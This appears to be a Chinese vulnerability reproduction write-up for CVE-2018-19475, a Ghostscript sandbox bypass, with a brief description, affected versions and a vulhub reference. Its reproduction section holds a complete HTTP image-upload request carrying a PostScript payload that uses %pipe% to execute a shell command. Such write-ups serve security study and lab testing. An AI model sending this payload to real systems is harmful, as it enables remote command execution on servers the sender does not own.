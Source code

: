 ```yaml
---
title: "（CVE-2018-19475）GhostScript 沙箱绕过（命令执行）漏洞"
id: zhfly2953
---
```


# （CVE-2018-19475）GhostScript 沙箱绕过（命令执行）漏洞

## 一、漏洞简介

./psi/zdevice2.c文件存在安全特征问题漏洞。该漏洞是源于网络系统或产品中缺少身份验证、访问控制、权限管理等安全措施。

## 二、漏洞影响

Ghostscript 9.26之前版本

## 三、复现过程

将POC作为图片上传，执行命令`id > /tmp/success && cat /tmp/success`：

```
POST /index.php HTTP/1.1
Host: target
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryukZmnyhO
Content-Length: 279

------WebKitFormBoundaryukZmnyhO

Content-Disposition: form-data; name=“file_upload”; filename=“1.jpg”

content-Type=“image/png” `%!PS

0 1 300367 {} for

{save restore} stopped {} if

(%pipe%id > /tmp/success && cat /tmp/success) (w) file

------WebKitFormBoundaryukZmnyhO–` 
```

命令已成功执行：

![image](../img/fd94a9398844f965ba34d76bee6a54e7.png)

## 参考链接

> https://vulhub.org/#/environments/ghostscript/CVE-2018-19475/